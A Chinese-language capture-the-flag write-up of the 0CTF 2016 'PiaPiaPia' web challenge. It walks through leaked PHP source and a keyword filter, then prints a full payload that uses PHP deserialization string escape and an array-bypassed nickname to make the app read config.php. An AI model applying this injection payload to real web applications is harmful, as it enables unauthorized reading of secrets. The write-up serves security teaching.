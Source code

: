 # 0CTF 2016

## 0x01 0CTF 2016 PiaPiaPia

进入是一个登入界面，试了几个万能密码都没有用，也没有报错之类的

扫描网站目录有/www.zip源码泄露

找了一下config里有flag但是是空的,看来是要想办法读/config.php了

有注册页，看下注册逻辑，跟进在class.php里

```php
	public function register($username, $password) {
		$username = parent::filter($username);
		$password = parent::filter($password);

		$key_list = Array('username', 'password');
		$value_list = Array($username, md5($password));
		return parent::insert($this->table, $key_list, $value_list);
	}
```

这里有个filter

```php
	public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
```

过滤了单引号，双斜杠，'select', 'insert', 'update', 'delete', 'where'

先试着注册一个账号，提示要填写profile，看下这部分逻辑

```php
	if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');
		
		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}
```

看到一个serialize()，看一下有没有反序列化

注意到

```php
$profile = unserialize($profile);
$phone = $profile['phone'];
$email = $profile['email'];
$nickname = $profile['nickname'];
$photo = base64_encode(file_get_contents($profile['photo']));
```

应该就是想办法利用``$profile['photo']``读出config.php了

直接在photo里搞肯定是不行的，注意到nickname是可控的

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');
```

preg_match和strlen可以利用数组形式绕过

这里利用的是php反序列化长度变化尾部字符串逃逸

> 对于`unserialize()`而言，这个函数会忽略能够正常序列化的字符串后面的字符串

我们的目的是构造

``s:5:"photo";s:10:"config.php";}``

但是生成的序列化对象会检验长度，怎么办呢

注意到

```php
		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
```

where->hacker 5->6 每写一个where多一个字符，

这里我们多构造的是``"};s:5:"photo";s:10:"config.php";}`` 一共34个字符因为nickname是数组所以前要补``}``

```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}

$profile = a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:8:"ss@q.com";s:8:"nickname";a:1:{i:0;s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere"};s:5:"photo";s:10:"config.php";}s:39:"upload/804f743824c0451b2f60d81b63b6a900";}
```


### 参考资料

php利用数组绕过的总结：

https://www.jianshu.com/p/8e3b9d056da6?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation